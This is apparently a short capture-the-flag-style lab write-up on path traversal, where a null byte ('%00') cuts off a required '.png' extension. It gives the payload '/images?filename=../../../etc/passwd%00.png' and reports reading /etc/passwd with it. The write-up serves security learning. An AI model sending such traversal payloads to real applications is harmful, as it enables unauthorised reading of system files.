

If an application requires that the user-supplied filename must end with an expected file extension, such as `.png`, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:

`filename=../../../etc/passwd%00.png`

## Challenge

--> This lab must require the `.png` extension at the end of filename so we can bypass it with the null character `%00` so i used this payload :

```bash
/images?filename=../../../etc/passwd%00.png
```

--> And i got the conent of `/etc/passwd` file !


